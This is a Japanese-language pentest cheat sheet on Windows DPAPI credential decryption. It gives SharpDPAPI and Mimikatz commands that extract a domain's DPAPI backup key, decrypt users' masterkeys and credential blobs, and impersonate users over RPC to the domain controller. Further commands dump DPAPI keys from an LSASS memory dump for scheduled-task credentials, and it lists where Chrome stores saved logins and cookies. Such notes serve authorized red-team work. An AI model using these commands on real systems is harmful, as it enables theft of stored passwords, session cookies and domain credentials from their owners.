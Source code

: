 ```yaml
---
title: DPAPI
category: windows
weight: -1
---
```


## DPAPI 

```
# masterkey
C:\Users\test\AppData\Roaming\Microsoft\Protect
# blob
C:\Users\test\AppData\Local\Microsoft\Credential
```

masterkeyでblobを復号するけど、masterkeyも暗号化されている。
DCに保存されているbackupkeyでmasterkeyを復号可能。


### backupkeyを使った復号 by SharpDPAPI

1. DA権限で、任意の端末から実行
    ```cmd
    SharpDPAPI.exe backupkey /server:primary.testlab.local /file:key.pvk
    ```

2. blobを指定して使用されているmastekeyを特定する。
    ```cmd
    SharpDPAPI.exe credentials /target:0B20591F2E66B04317609D770D91466D
    ```

3. backupkeyを用いてmasterkeyを復号する。
    ```cmd
    SharpDPAPI.exe masterkeys /pvk:key.pvk /target: C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-1960477253-2559852060-3892384560-1001\410dad28-58bc-4320-babd-2ee0e7a2f7d
    ```

4. 復号したmasterkeyを使ってblobを復号する。
    ```cmd
    SharpDPAPI.exe credentials /target:0B20591F2E66B04317609D770D91466D {934a40a4-947d-45c1-9cd9-1d235f652812}:D538DF23CD435B07DCBF293CB22915C487F8F797
    ```

---

### backupkeyを使わない方法 by Mimikatz
ユーザになりすましてmasterkeyを復号する方法。

1. blobを指定して使用されているmastekeyを特定する。
    ```cmd
    mimikatz # dpapi::blob /in:"<blob path>"
    ```
2. 127.0.0.1:445をDCにポートフォワード設定し、復号されたmasterkeyを取り出す。(この時多分、pass the hash等で指定したユーザに成り済ます必要がある)
    ```cmd
    mimikatz # dpapi::masterkey /in:"<masterkey path>" /protected /sid:"<target users SID>" /rpc /dc:127.0.0.1
    ``` 
3.  復号されたmasterkeyを使って、blobを復号する。
    ```cmd
    mimikatz # dpapi::blob /in:"<blob path>" /masterkey:"<decrypted master key>"
    ```

---

### ScheduledTask
Scheduled Taskの認証情報はDPAPIを使って保存されてる。
masterkeyはLSASSの中にあるので、それを取って使う。

```
mimikatz # privilege::debug
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::dpapi
```

```
C:\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
```

---

### Browser

```
# Chrome
C:\Users\[username]\AppData\Local\Google\Chrome\User Data\Local State
C:\Users\[username]\AppData\Local\Google\Chrome\User Data\Profile\Login Data
C:\Users\[username]\AppData\Local\Google\Chrome\User Data\Profile\Network\Cookies
```

